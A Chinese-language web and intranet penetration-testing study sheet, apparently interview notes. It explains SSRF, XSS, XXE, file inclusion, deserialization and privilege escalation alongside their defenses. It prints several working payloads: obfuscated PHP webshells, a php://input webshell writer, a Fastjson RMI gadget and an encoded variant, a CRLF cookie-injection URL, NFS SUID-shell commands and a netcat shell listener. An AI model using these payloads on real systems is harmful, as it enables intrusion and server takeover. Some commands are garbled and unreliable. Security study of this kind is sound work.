
> [https://www.modb.pro/db/75750](https://www.modb.pro/db/75750)
> [https://cloud.tencent.com/developer/article/1771247](https://cloud.tencent.com/developer/article/1771247)
> [https://chowdera.com/2021/08/20210812013956949a.html](https://chowdera.com/2021/08/20210812013956949a.html)
> [http://www.feidao.site/wordpress/?p=2184](http://www.feidao.site/wordpress/?p=2184)

#### 内容绕过
> 主要是消耗WAF性能、内容无字符、参数奇异

- 垃圾字符绕过，如果有限制大小就不行了。

`<%%>`、`。`、`helloword`

- 条件竞争，并发速度快
- 无字母数字Webshell [https://xz.aliyun.com/t/8107](https://xz.aliyun.com/t/8107)
```php
<?=
$_ = "#!,,!((%)!&(.#"^"@@@@~][@[~@]@@";   //构造出call_user_func
$__ = "!+/(("^"~{`{|";   //构造出_POST
// $__ = "!'%("^"~``|"; //构造出_GET
$___ = $$__;   //$___ = $_POST
$____ = "(\"((%-"^"[[[\\@@"; // system
$_($____,$___[_]);   //构造出call_user_func(system,$_POST[_]);
```

- 反引号绕过长度限制
```php
<?=`$_GET[_]`;
```
### 其他可能存在的问题

- 目录穿越，任意路径上传
- SSRF，可能远程读链接

## 反序列化
### php反序列化漏洞的原理
php中围绕着serialize()，unserialize()这两个函数，序列化就是把一个对象变成可以传输的字符串,如果服务器能够接收我们 **反序列化过的字符串**、并且 **未经过滤 **的把其中的**变量** 直接放进这些魔术方法里面的话，就容易造成很严重的漏洞了。

### java反序列化漏洞的原理
JAVA Java 序列化是指把 Java 对象转换为字节序列的过程便于保存在内存、文件、数据库中，ObjectOutputStream类的 writeObject() 方法可以实现序列化。Java 反序列化是指把字节序列恢复为 Java 对象的过程，ObjectInputStream 类的 readObject() 方法用于反序列化。

## SSRF
### 原理
SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。
**SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。**比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。

### 危害
攻击者就可以利用该漏洞绕过[防火墙](https://www.zhihu.com/search?q=%E9%98%B2%E7%81%AB%E5%A2%99&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra=%7B%22sourceType%22%3A%22article%22%2C%22sourceId%22%3A386691584%7D)等访问限制，进而将受感染或存在漏洞的服务器作为代理进行端口扫描，甚至是访问内部系统数据。

### 预防建议
① 限制请求的端口只能为web端口，只允许访问HTTP和HTTPS请求。
② 限制不能访问内网的IP，以防止对内网进行攻击。
③ 屏蔽返回的详细信息。
④ 限制请求的[端口](https://www.zhihu.com/search?q=%E7%AB%AF%E5%8F%A3&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra=%7B%22sourceType%22%3A%22article%22%2C%22sourceId%22%3A386691584%7D)为HTTP常用的端口，比如 80,443,8080,8088等。

### 绕过
我们都是在链接检测上进行绕过的。

- @绕过
- ip地址转换成进制绕过
- 利用302 Redirect绕过
- 利用非HTTP协议绕过
```shell
file:///
dict://
sftp://
ftp://
tftp://
ldap://
gopher://
```

- 短网址绕过 [https://bitly.com/](https://bitly.com/)
- 添加端口可能绕过匹配正则
- 利用DNS [http://xip.io](https://link.zhihu.com/?target=http%3A//xip.io)和xip.name
- 利用句号
> 1. 取URL的Host
> 2. 取Host的IP
> 3. 判断是否是内网IP，是内网IP直接return，不再往下执行
> 4. 请求URL
> 5. 如果有跳转，取出跳转URL，执行第1步
> 6. 正常的业务逻辑里，当判断完成最后会去请求URL，实现[业务逻辑](https://www.zhihu.com/search?q=%E4%B8%9A%E5%8A%A1%E9%80%BB%E8%BE%91&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra=%7B%22sourceType%22%3A%22article%22%2C%22sourceId%22%3A73736127%7D)。


### 常见漏洞点

1. 能够对外发起网络请求的地方(根据远程URL上传，静态资源图片等，这些会请求远程服务器的资源。)
2. 请求远程服务器本地资源的地方(引用了本地绝对路径)
3. 数据库内置功能(数据库的比如mongodb的copyDatabase函数，这点看猪猪侠讲的吧，没实践过。)
4. 邮件系统
5. 文件处理
6. 在线处理或预览(在线识图，在线文档翻译，分享，订阅等，这些有的都会发起网络请求。)
### CSRF、SSRF区别？
CSRF是跨站请求伪造攻击，由客户端发起 SSRF是服务器端请求伪造。
## CSRF
json格式提交的，但是因为 content- type 允许 txt，导致可以伪造 json包。
### CSRF成因
攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。大部分攻击成功是因为网站的cookie在浏览器中不会过期。

### 防御CSRF

1. 携带随机 token
2.  cookie 加入随机验证
3. 校验 Referer
2. X-Frame-Options
- DENY(禁止被 加载进任何frame)
- SAMEORIGIN(仅允许被加载进同域内的frame)

### **CSRF有何危害？**
篡改目标网站上的用户数据 盗取用户隐私数据 传播CSRF蠕
## 文件包含
### 原理
引入一段用户能控制的脚本或代码，并让服务器端执行 include()等函数通过动态变量的方式引入需要包含的文件；用户能够控制该动态变量。

### 危害
①获取敏感信息
②执行任意命令
③获取服务器权限

### 修复建议

1. 禁止远程文件包含 `allow_url_include=off`
2. 设置白名单，限制目录
3. 开启魔术引号，自动转义`magic_quotes_qpc=on`
4. 尽量不要使用动态变量调用文件，直接写要包含的文件。

### 利用思路

1. 读取敏感文件
2. 远程包含shell
3. 上传图片马然后包含图片马
4. 伪协议读取
5. 输入shell代码，然后包含日志文件进行getshell
6. 截断包含

如果有些文件包含`内容固定添加了.php后缀`，如：

文件包含截断方法有3种：
第一种是文件名结尾使用`%00`截断，效果就是：`123.txt%00.php`，会自动从%00开始截断后面的内容。但是`php>5.3`以后就不能使用了，开启了`GPC(自动转义)`的情况下也是不能使用的。
第二种使用垃圾字符填充，使用(.)加(/)的方法填充。
第三种方法是在远程文件包含时通过`?`来伪截断
这种阶段方法不受GPC和PHP版本的影响，Web会把`问号`当作请求的参数


### 导致文件包含的函数
PHP：include(), include_once(), require(), re-quire_once(), fopen(), readfile()
JSP/Servlet：ava.io.File(), java.io.Fil-eReader()
ASP：include file, include virtual

1. `include()` ：使用此函数，只有代码执行到此函数时才将文件包含进来，发生错误时只警告并继续执行。
2. `inclue_once()` ：功能和前者一样，区别在于当重复调用同一文件时，程序只调用一次。
3. `require()`：使用此函数，只要程序执行，立即调用此函数包含文件，发生错误时，会输出错误信息并立即终止程序。
4. `require_once()` ：功能和前者一样，区别在于当重复调用同一文件时，程序只调用一次。

### 本地文件包含
能够打开并包含本地文件的漏洞，被称为本地文件包含漏洞

### 远程文件包含漏洞需要开启什么函数？

- allow_url_fopen
- allow_url_include

### 如何通过文件包含漏洞去读取页面源码？
通过 `[php://filter/read=convert.base64-encode/resource=index.php](http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/read=convert.base64-encode/resource=index.php)`
php://filter在双off的情况下也可以正常使用
### PHP伪协议
经常使用的是php://filter和php://input，php://filter用于读取源码，php://input用于执行php代码。
php://input 可以直接POST如下内容生成一句话： `<?php fputs(fopen("shell.php","w"),'<?php eval($_POST["cmd"];?>');?>`

>  [https://www.cnblogs.com/xiaobai141/p/14148026.html](https://www.cnblogs.com/xiaobai141/p/14148026.html) 

## CRLF
CRLF注入在OWASP 里面被称为HTTP拆分攻击（HTTP Splitting）** CRLF是”回车 + 换行”（\r\n）**的简称,在HTTP协议中，** HTTP Header与HTTP Body是用两个CRLF分隔的 **，HTTP响应包通常以两个换行符，去划分响应头与响应正文两个部分。当用户的操作足以控制响应头的内容时，将会出现CRLF漏洞。
### 换行符、回车符

- 回车符(CR，ASCII 13，\r，%0d)
- 换行符(LF，ASCII 10，\n，%0a)

Nginx会将$uri进行解码，导致传入%0a%0d即可引入换行符，造成CRLF注入漏洞。
错误的配置文件示例（原本的目的是为了让http的请求跳转到https上）：
```java
location / {
	return 302 https://$host$uri;
}
```
### 漏洞利用讲解
修改会话值
Payload:http://your-ip:8080/%0a%0dSet-Cookie:%20a=1，可注入Set-Cookie头。

## XSS
### 原理
恶意攻击者往Web页面里嵌入脚本代码（通常是JavaScript编写的恶意代码），当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。（恶意攻击者利用网站没有对用户提交数据进行转义处理或者过滤不足的缺点，进而添加一些代码，嵌入到web页面中去。）

### 危害
①盗取用户Cookie。
②修改网页内容。
③网站挂马。
④利用网站重定向。
⑤XSS[蠕虫](https://www.zhihu.com/search?q=%E8%A0%95%E8%99%AB&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra=%7B%22sourceType%22%3A%22article%22%2C%22sourceId%22%3A386691584%7D)。

### 修复建议
①过滤输入的数据：包括”’”、”<”、“<”、“>”、“on”等非法字符。
②对输出到页面的数据进行相应的编码转换，包括[html实体编码](https://www.zhihu.com/search?q=html%E5%AE%9E%E4%BD%93%E7%BC%96%E7%A0%81&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra=%7B%22sourceType%22%3A%22article%22%2C%22sourceId%22%3A386691584%7D)、javascript编码等。

### 绕过

### **什么是同源策略?**
**其实就是主机、协议、端口名三个相同。**同源策略(Same Origin Policy, SOP)是Web应用程序的一种安全模型，被广泛地应用在处理WEB内容的各种客户端上，比如各大浏览器，微软的Silverlight，Adobe的Flash/Acrobat等等。

### **XSS 能用来做什么？**
网络钓鱼、窃取用户Cookies、弹广告刷流量、具备改页面信息、删除文章、获取客户端信息、传播蠕虫

### **XSS的三种类型？区别？**

- 反射型
- Dom型
- 存储型 

反射型和Dom型都是出现在客户端上，存储型是插在数据库内。
Dom型是插入Dom树中，靠的是浏览器DOM解析，不取决于输入环境。
反射型表达得更广泛可以出现在 JS 中也可以出现在输入框、jsonp、留言框。

### **如何快速发现xss位置？**
各种输入的点，名称、上传、留言、可交互的地方，一切输入都是在害原则。 

### 防御XSS

- 开启HttpOnly，以防确实存在避免cookies被获取。
- CSP策略
- 语言中提供的函数对输入过滤。

### **cookie参数，security干什么的？**
Httponly：防止cookie被xss偷
https：防止cookie在网络中被偷
Secure：阻止cookie在非https下传输，很多全站https时会漏掉
Path :区分cookie的标识，安全上作用不大和浏览器同源冲突

## xxe

### XXE成因&防御
XML外部实体注入攻击，XML中可以通过调用实体来请求本地或者远程内容，和远程文件保护类似，会引发相关安全问题，例如敏感文件读取。

### 危害
①读取任意文件。
②执行系统命令。
③探测内网端口。
④攻击内网网站。

### 修复建议
①禁止使用外部实体，例如：
PHP：libxml_disable_entity_loader(true)
②过滤用户提交的xml数据，防止出现非法内容。
③XML解析库在调用时严格禁止对外部实体的解析。

### 常见漏洞点

1. 涉及提交xml数据的功能处
2. 上传xlsx文件的地方
3. 某些json格式传递数据的地方，可以修改其`Content-Type为application/xml`，并尝试进行XXE注入

## 命令执行漏洞
> 现在的命令执行一般都是通过反序列化执行的

### 原理
应用未对用户输入做严格的检查过滤，导致用户输入的参数被当成命令来执行。攻击者可以任意执行系统命令，属于高危漏洞之一，也属于代码执行的范畴。

### 危害
①继承[web服务程序](https://www.zhihu.com/search?q=web%E6%9C%8D%E5%8A%A1%E7%A8%8B%E5%BA%8F&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra=%7B%22sourceType%22%3A%22article%22%2C%22sourceId%22%3A386691584%7D)的权限去执行系统命令或读写文件。
②反弹shell，获得目标服务器的权限。
③进一步内网渗透。

### 修复建议
①尽量不要使用[命令执行函数](https://www.zhihu.com/search?q=%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%87%BD%E6%95%B0&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra=%7B%22sourceType%22%3A%22article%22%2C%22sourceId%22%3A386691584%7D)。
②客户端提交的变量在进入执行命令函数前要做好过滤和检测。
③在使用动态函数之前，确保使用函数是指定的函数之一。
④对hph语言而言，不能完全控制的危险函数最好不要使用。

### 绕过
**1.绕过disable_function的方法**：ld_preload和php_gc等
**2.绕过过滤字符**包括：空格绕过、黑名单绕过、文件读取绕过、通配符绕过、内敛执行绕过、长度限制绕过(文件构造绕过)等
其中黑名单绕过包括：拼接、编码绕过、利用已存在资源、单、双引号绕过、反斜杠绕过、利用shell特殊变量绕过等
**3.命令盲注**
**4.无回显命令执行绕过**
> [https://www.anquanke.com/post/id/241808#h2-10](https://www.anquanke.com/post/id/241808#h2-10)

### 
### 可能存在命令执行

- 后台可以运行 cmd
- 后存在可以写任务计划的地方

## 暴力破解
### 原理
由于服务器端没有做限制，导致攻击者可以通过暴力手段破解所需信息，如用户名、密码、验证码等。暴力破解需要一个强大的字典，如4位数字的验证码，那么暴力破解的范围就是0000~9999，暴力破解的关键在于字典的大小。

### 危害
①用户密码被重置。
②敏感目录、参数被枚举。
③用户订单被枚举。

### 修复建议
① 如果用户登录次数超过设置的阈值，则锁定账号。
② 如果某个IP登陆次数超过设置的阈值，则锁定IP。但存在一个问题，如果多个用户使用的是同一个IP，则会造成其他用户也不能登录。

### 绕过

- 没有验证码
- 验证码不请求刷新就不会变
- 有的是验证码和登陆分开发包的，我们直接拿登陆包就好了
# Java框架漏洞
### 
### Log4j2
JavaLookup导致的，会解析${}的内容并请求。可以通过 :- 绕过。

### Apache Struts 2漏洞
由于OGNL能够创建或更改可执行代码，因此能够为使用它的任何框架引入严重的安全漏洞。多个Apache Struts 2版本容易受到OGNL安全漏洞的攻击。
[https://si1ent.xyz/2021/02/26/Struts2%E6%BC%8F%E6%B4%9E%E6%B1%87%E6%80%BB/](https://si1ent.xyz/2021/02/26/Struts2%E6%BC%8F%E6%B4%9E%E6%B1%87%E6%80%BB/)

## Fastjson反序列化
### 原理

- Fastjson提供了反序列化功能，**允许用户在输入JSON串时通过“@type”键对应的value指定任意反序列化类名;**
- Fastjson自定义的反序列化机制会使用反射生成上述指定类的实例化对象，并自动调用该对象的setter方法及部分getter方法。

攻击者可以构造恶意请求，使目标应用的代码执行流程进入这部分特定setter或getter方法，若上述方法中有可被恶意利用的逻辑(也就是通常所指的“Gadget”)，则会造成一些严重的安全问题。官方采用了 **黑名单方式对反序列化类名校验**，但随着时间的推移及自动化漏洞挖掘能力的提升。新Gadget会不断涌现，黑名单这种治标不治本的方式只会导致不断被绕过，从而对使用该组件的用户带来不断升级版本的困扰。
[https://qqe2.com/java/post/3523.html](https://qqe2.com/java/post/3523.html)

### 绕过
#### Unicode编码和十六进制编码
当输入的字符是形如\(斜杠)u或者\(斜杠)x的情况下，fastjson是会对其进行解码操作的，**fastjson支持字符串的Unicode编码和十六进制编码**。

正常poc：
```java
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```
可以对初始进行混合编码进行绕过（这里是Unicode+16进制编码的场景）：
```java
{"\u0040\u0074\u0079\u0070\u0065":"\x63\x6f\x6d\x2e\x73\x75\x6e\x2e\x72\x6f\x77\x73\x65\x74\x2e\x4a\x64\x62\x63\x52\x6f\x77\x53\x65\x74\x49\x6d\x70\x6c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"rmi://localhost:1099/Exploit","\x61\x75\x74\x6f\x43\x6f\x6d\x6d\x69\x74":true}
```

#### 利用FastJson智能匹配进行混淆绕过
FastJSON会对JSON中没有成功映射JavaBean的key做智能匹配，在反序列的过程中会忽略大小写和下划线，自动会把下划线命名的Json字符串转化到驼峰式命名的Java对象字段中。
查看**1.2.24版本**，部分关键部分代码如下，主要是在JavaBeanDeserializer.smartMatch方法：
```java
if (fieldDeserializer == null)
    {
      snakeOrkebab = false;
      key2 = null;
      char ch;
      for (i = 0; i < key.length(); i++)
      {
        ch = key.charAt(i);
        if (ch == '_')
        {
          snakeOrkebab = true;
          key2 = key.replaceAll("_", "");
          break;
        }
        if (ch == '-')
        {
          snakeOrkebab = true;
          key2 = key.replaceAll("-", "");
          break;
        }
}
```
也就是说可以分别使用-和_来对payload进行混淆：


**1.2.36版本及后续版本**还可以支持同时使用_和-进行组合混淆：

#### 修改 Content-Type
Content-Type（MediaType），即是Internet Media Type，互联网媒体类型，也叫做MIME类型。在HTTP协议消息头中，使用Content-Type来表示请求和响应中的媒体类型信息。它用来告诉服务端如何处理请求的数据，以及告诉客户端（一般是浏览器）如何解析响应的数据，比如显示图片，解析并展示html等等。常见的有：

- application/x-www-form-urlencoded：最常见POST提交数据的方式。
- multipart/form-data：文件上传的数据提交方式。
- application/xml：XML数据提交方式。
- application/json：作为请求头告诉服务端消息主体是序列化的JSON字符串。

某些Waf考虑到解析效率的问题，会根据`Content-Type`的内容进行针对性的拦截分析，例如值为`appliction/xml`时会进行XXE的检查，那么可以尝试将Content-Type设置为通配符`*/*`来绕过相关的检查：


同理对`application/json`Content-Type的请求，也可以尝试将Content-Type设置为通配符`*/*`来绕过相关的检查：


## 什么是Spring
作为Java开发人员，大家都Spring都不陌生，简而言之，Spring框架为开发Java应用程序提供了全面的基础架构支持。它包含一些很好的功能，如依赖注入和开箱即用的模块，如：Spring JDBC 、Spring MVC 、Spring Security、 Spring AOP 、Spring ORM 、Spring Test，这些模块缩短应用程序的开发时间，提高了应用开发的效率例如，在Java Web开发的早期阶段，我们需要编写大量的代码来将记录插入到数据库中。但是通过使用Spring JDBC模块的JDBCTemplate，我们可以将操作简化为几行代码。
## 什么是Spring Boot
Spring Boot基本上是Spring框架的扩展，它消除了设置Spring应用程序所需的XML配置，为更快，更高效的开发生态系统铺平了道路。
**Spring Boot中的一些特征：**

1. 创建独立的Spring应用。
2. 嵌入式Tomcat、Jetty、 Undertow容器（无需部署war文件）。
3. 提供的starters 简化构建配置
4. 尽可能自动配置spring应用。
5. 提供生产指标,例如指标、健壮检查和外部化配置
6. 完全没有代码生成和XML配置要求
### 
## shiro rememberme 反序列化
### 原理
根据漏洞描述，Shiro≤1.2.4版本默认使用CookieRememberMeManager，当获取用户请求时，大致的关键处理过程如下：
**·** 获取Cookie中rememberMe的值
**·** 对rememberMe进行Base64解码
**·** 使用AES进行解密
**·** 对解密的值进行反序列化
由于AES加密的Key是硬编码的默认Key，因此攻击者可通过使用默认的Key对恶意构造的序列化数据进行加密，当Cookie RememberMeManager对恶意的rememberMe进行以上过程处理时，最终会对恶意数据进行反序列化，从而导致反序列化漏洞。
# PHP 相关漏洞
### php.ini可以设置哪些安全特性
禁用PHP函数
允许include或打开访问远程资源

### php的%00截断的原理是什么？
因为在C语言中字符串的结束标识符%00是结束符号，而PHP就是C写的，所以继承了C的特性，所以 ** 判断为%00是结束符号不会继续往后执行**
条件：PHP<5.3.29，且GPC关闭

### php的LFI本地包含漏洞原理是什么？
```java
if ($_GET['file']){

    include $_GET['file'];

}
```
** 包含的文件设置为变量，并且无过滤导致可以调用恶意文件 还可以对远程文件包含**，但需要开启 allow_url_include = ON 通过测试参数的地方进行本地文件/etc/passwd等包含 如何存在漏洞而且没有回显，有可能没有显示在页面而是在网页源代码中，除些可以利用DNSlog进行获取包含的信息。从index.php文件一级级往读取 也可以利用PHP封装协议读取文件
# 信息收集
### 
### 如何绕过CDN获取目标网站真实IP
phpinfo、网站信息
C段、子域名
历史解析记录
DDOS
zmap全网扫描识别http头
网站域名管理员邮箱，注册过的域名等相关信息关联

### 如何手工快速判断目标站是windows还是linux服务器？
linux大小写敏感，windows大小写不敏感。

### 如果网站指纹做了隐藏，那可以如何去找？

- 通过 icon 转 hash 去查询，钟馗之眼、fofa、shadow、360网络测绘。
- 错误页面返回
- 返回包携带 power-for
- 游览器插件被动工具和主动Whatweb扫描

# 内网渗透

## 隧道
### DNS隧道
要理解cobaltstrike dns隧道的上线过程，首先要理解dns协议。
Domain Name System，dns是域名系统的缩写。默认使用的是53端口。
dns隧道使用的场景是在一个严格的内网环境，安全设备或者策略不允许其他端口出网，但是使用nslookup命令，发现可以使用dns协议，可以向外部的dns服务器发送请求，来进行外部域名解析。
外部域名解析也就是一个域名转换为IP的行为。
首先我们要了解一点dns记录的知识：
A记录： 将域名指向一个IPv4地址（例如：100.100.100.100），需要增加A记录
NS记录： NS（Name Server）记录是域名服务器记录，用来指定该域名由哪个DNS服务器来进行解析。
#### dns隧道连接过程
1.被控端收到命令之后，向自己记录的dns服务器请求解析域名。
2.内网dns收到请求之后找不到该域名，将请求交给权威域名服务器查询。
3.权威域名服务器向其他服务器同步请求。
4.找到对应的ip为自己的cs服务器，解析请求，实现dns数据链路传输。

#### 工具
使用工具 iodine
> [https://blog.csdn.net/m0_48994341/article/details/112438728](https://blog.csdn.net/m0_48994341/article/details/112438728)


## 提权
### **Windows系统与Linux系统提权的思路？**
#### Windows
Windows服务比较多所以方法也如此，最基本的就是Exp提权，数据库SQLServer、MYSQL UDF等、第三方软件提权。

#### Linux

- 弱口令或者明文密码
- 只能内部访问的服务
- suid和guid错误配置
- 滥用sudo权限
- 以root权限运行的脚本文件
- 计划任务
- NFS共享
- 通过键盘记录仪窃取密码

除了EXP或者高版本的内核无法提权之外，通过第三方软件和服务，除了提权也可以考虑把这台机器当跳版,
达到先进入内网安全防线最弱的地方寻找有用的信息，再迂回战术。

### 利用NFS提权
其实是利用NFS弱权限。

**什么是root_sqaush和no_root_sqaush？**
Root Squashing（_root_sqaush_）参数阻止对连接到NFS卷的远程root用户具有root访问权限。远程根用户在连接时会分配一个用户“ _**nfsnobody**_ ”，它具有最少的本地特权。如果 no__root_squash_ 选项开启的话”，并为远程用户授予root用户对所连接系统的访问权限。在配置NFS驱动器时，系统管理员应始终使用“ _root_squash_ ”参数。
注意：**要利用此，no__root_squash_ 选项得开启。**
```shell
# 1. 使用 showmount命令来查看挂载的目录
showmount -e [被提权的机器IP地址]
# 2. 创建目录挂载远程系统
mkdir /tmp/test
mount -o rw，vers=2 [被提权的机器IP地址]:/tmp /tmp /test
# 3. 新建一个c文件&编译&赋权
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/test/suid-shell.c
gcc /tmp/test/suid-shell.c -o / tmp / 1 / suid-shel
chmod + s /tmp/test/suid-shell.c
# 4. 在被提权的机器运行
cd / tmp
./suid-shell
```
> [https://cloud.tencent.com/developer/article/1708369](https://cloud.tencent.com/developer/article/1708369)


### 提权时选择可读写目录，为何尽量不用带空格的目录？
因为exp执行多半需要空格界定参数

## 获取权限
### **反弹 shell 的常用命令？一般常反弹哪一种 shell？**
nc -lvvp 7777 -e /bin/bash
bash是交互式,否则像useradd无法执行交互

### **有哪些反向代理的工具?**
reGeirg、EW、lcx、Ngrok、frp

## AD域控
### 怎么查找域控
1.通过DNS查询
```shell
dig -t SRV _gc._tcp.lab.ropnop.com  
dig -t SRV _ldap._tcp.lab.ropnop.com  
dig -t SRV _kerberos._tcp.lab.ropnop.com  
dig -t SRV _kpasswd._tcp.lab.ropnop.com
```
2.端口扫描
域服务器都会开启389端口，所以可以通过扫描端口进行识别。

**扫描内网中同时开放389和53端口的机器、88和389端口**
端口：389
服务：LDAP、ILS
